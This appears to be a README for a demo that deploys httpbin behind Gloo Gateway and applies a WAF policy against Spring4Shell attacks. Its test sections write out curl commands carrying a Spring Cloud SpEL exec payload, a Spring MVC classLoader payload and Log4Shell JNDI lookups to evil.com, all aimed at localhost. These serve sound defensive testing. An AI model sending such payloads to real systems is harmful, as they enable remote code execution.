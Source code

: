 # Smash Spring4Shell attacks with WAF and Gloo Gateway

https://www.solo.io/blog/smash-spring4shell-attacks-with-waf-and-gloo-edge/ 


## Deploy httpbin

```sh
kubectl create namespace httpbin --context gloo
kubectl --context gloo label namespace httpbin istio-injection=enabled

kubectl apply -f spring4shell/httpbin.yaml -n httpbin --context gloo
```

## Gloo Mesh Config


https://www.solo.io/blog/handling-super-sized-requests-with-gloo-edge/

```sh
kubectl apply -f spring4shell/workspace.yaml --context gloo
kubectl apply -f spring4shell/virtual-gateway.yaml --context gloo
kubectl apply -f spring4shell/route-table.yaml --context gloo
```


## Test bad call

```sh
# Spring Cloud attack
curl -X POST -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")' localhost:8080/anything -i

# Spring MVC and WebFlux attack
curl -X POST -d "class.module.classLoader.resources.context.parent.pipeline.first.pattern=some-malicious-pattern" localhost:8080/anything -i
```


## Apply Policy

```sh
kubectl apply -f spring4shell/waf-policy.yaml --context gloo
```

```sh
# Request Header Attacks
curl -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" localhost:8080/anything -i
# Request Argument Attacks
curl -X GET localhost:8080/anything\?arg-1=\$\\{jndi:ldap://evil.com/x\\} -i
# Request Payload Attacks
curl -X POST -d "arg-1=\${jndi:ldap://evil.com/x}" localhost:8080/anything -i
```
